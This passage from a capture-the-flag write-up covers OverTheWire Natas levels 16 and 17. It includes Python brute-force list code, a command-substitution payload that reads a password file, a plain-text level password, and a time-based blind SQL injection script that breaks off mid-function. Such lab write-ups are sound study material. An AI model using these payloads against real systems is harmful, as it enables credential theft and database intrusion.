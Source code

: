 ```python
            for password in password_list:
                for numeral in numeral_list:
                    new_list.append(password + numeral)
        else:
            upper = word.upper()
            lower = word.lower()
            new_list = []
            for password in password_list:
                new_list.append(password + upper)
                new_list.append(password + lower)
        password_list = list(new_list)
        del(new_list)
    
    file_object = open("passwords_natas17.txt", "w")
    file_object.write(password_list)
    file_object.close()


brute_force_positions()
create_password_list()
```
The substitution occues in `payload = '$(cut -c2 /etc/natas_webpass/natas17)'`. However, brute force is huge. Then we move on to [boolean based injection](https://www.hackingarticles.in/beginner-guide-sql-injection-boolean-based-part-2/) in the way that the query prints something on true and nothing on false. Amazing [walkthrough](https://www.abatchy.com/2016/11/natas-level-16).

Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

# Level 17

URL: http://natas17.natas.labs.overthewire.org/

## 

### Questions:

#### Can something be done about the PHP code?

No. It is server side.

#### Observe responses of correct and incorrect queries?

No difference. Everything seems same.

#### What about time???

Consider the SLEEP() [SQL attack vector](https://blog.pythian.com/mysql-injection-sleep/). 

```py
def analyse_time():
    password = ""
    character_set = "0123456789abcdefghijklmnopqrstuvwxyz"
    for _ in range(32):
        for char in character_set:
            lower = char.lower()
            _payload = {'username' : 'natas18" and if (password LIKE BINARY "'+password+lower+'%", SLEEP(5), 0) #'}
            response = receive_response(_payload)
            response_time = str(response.elapsed)
            dot_index = response_time.index(".")
            response_time = response_time[0:dot_index]
            try:
                last_index = len(response_time)
                response_time_seconds = int(response_time[last_index-1:last_index])
                if(response_time_seconds >= 5):
```